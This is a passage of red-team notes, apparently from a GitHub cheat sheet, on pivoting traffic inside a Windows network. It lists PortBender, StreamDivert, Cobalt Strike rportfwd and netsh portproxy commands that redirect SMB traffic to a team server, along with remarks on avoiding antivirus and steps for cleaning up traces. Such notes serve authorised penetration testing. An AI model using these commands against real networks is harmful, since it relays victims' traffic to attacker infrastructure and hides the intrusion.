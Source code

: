 
---
### __Port forwarding:__
#### _Port forwarding based on port bending:_
>Port bending requires admin privileges to either add the necessary drivers or modify the firewall\.  Furthermore, this pretty much breaks any SMB service \(or other\) on the machine\. 
- \([PortBender](https://github.com/praetorian-inc/PortBender)\): this tool allows for port bending and only works for Cobalt Strike:
	- 1\. Start 2 beacons of which atleast 1 is running with high intergrity and use it for all below commands
	- 2\. Upload the WinDivert64\.sys driver to the “C:\\Windows\\System32\\drivers” folder\.
	- 3\. Load the “PortBender\.cna” Aggressor script: Cobalt Strike > Script Manager
	- 4\. Create a reverse port forward that will relay the traffic from port 8445 to port 445 on the Team Server: `rportfwd 8445 127.0.0.1 445`
	- 5\. Execute PortBender to redirect traffic from 445 to port 8445: `PortBender redirect 445 8445`
	- 6\. Stop port bending: 
		- 1\. Identify the JID of the PortBender job: `jobs`
		- 2\. Stop job: `jobkill <JID>`
		- 3\. Stop process: `kill <PID PortBender>`
- \([StreamDivert](https://github.com/jellever/StreamDivert/releases)\): this tool allows for port bending:
	- 1\. Start 2 high intergrity beacons on the pivot system of which at least one can run socksproxy\.
	- 2\. Create a config file named "config\.txt" and add the following content \(optional to edit the '0\.0\.0\.0' IP if you only want to redirect incomming traffic from a specific system\): `tcp < 445 0.0.0.0 -> <own ip> 445`
	- 3\. Upload the following StreamDivert files to the pivot system in the same folder \(this should not trigger AV\): StreamDivert\.exe / StreamDivert\.pdb / WinDivert64\.sys / WinDivert\.dll / config\.txt.
	- 4\. Run StreamDivert to start the port redirect \('\-f' will add 2 new firewall rules called "StreamDivert"\): `.\StreamDivert.exe config.txt -f (-v)`
	- 5\. Stop port bending:
		- 1\. Stop the 'StreamDivert' tool \(run from the other beacon\): 
			- 1: `tasklist /v |findstr "Stream"`
			- 2: `taskkill /f /pid <PID>`
		- 2\. Delete added firewall rules: `netsh advfirewall firewall delete rule name="StreamDivert"`
		- 3\. Delete all the uploaded tools \(it may require a system reboot to delete the \.sys driver\)

#### _Cobalt Strike port forwarding:_
- Tunnel traffic to Team Server:
	- 1\. Port forward incoming traffic on a specific port to a specific port on an arbitrary host: `rportfwd <bind port> <forward host> <forward port>`
	- 2\. Stop port forwarding: `rportfwd stop <bind port>`
- Tunnel traffic to the local machine running CS client: `rportfwd_local <bind port> 127.0.0.1 <forward port>`

#### _Windows native port forwarding:_
This method can be used to reach hosted payloads on the team server from a nested system in the network\. This requires admin privs to setup\. 
- 1\. Add portforwarding rule: `netsh interface portproxy add v4tov4 listenport=<local listening TCP port> connectaddress=<remote connect IP address> connectport=<remote TCP port>`
- 2\. Add a firewall rule so the portforward port can be reached: `netsh advfirewall firewall add rule name="<name of rule>" dir=in action=allow protocol=tcp localport=<listenport>`
